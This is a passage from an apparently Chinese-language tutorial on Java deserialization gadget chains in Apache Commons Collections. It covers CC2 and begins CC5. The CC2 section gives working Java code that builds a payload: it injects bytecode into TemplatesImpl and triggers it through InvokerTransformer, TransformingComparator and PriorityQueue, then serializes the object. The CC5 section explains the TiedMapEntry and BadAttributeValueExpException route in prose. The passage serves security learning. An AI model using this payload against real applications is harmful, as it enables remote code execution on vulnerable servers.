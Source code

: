 # 0x06 CC2

一样要依赖于CC4 这里跳了一下直接走了`TemplatesImpl#newTransformer()`去动态加载类

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingComparatorfield =  c.getDeclaredField("transformer");
        transformingComparatorfield.setAccessible(true);
        transformingComparatorfield.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
```

‍

# 0x07 CC5

CC5其实也是一种排列组合，就是作者在`TiedMapEntry`中还找到了`toString`方法也可以调用`LazyMap#get()`

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d7256f41ce0f361df4a4f185671d2da9d918330a.png)

都是一样的

所以去找了一下谁去调用了`toString`方法 找到了`\src.zip!\javax\management\BadAttributeValueExpException.java`

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a7abb743b8118207dbfe37c882c6ca38a7086c03.png)
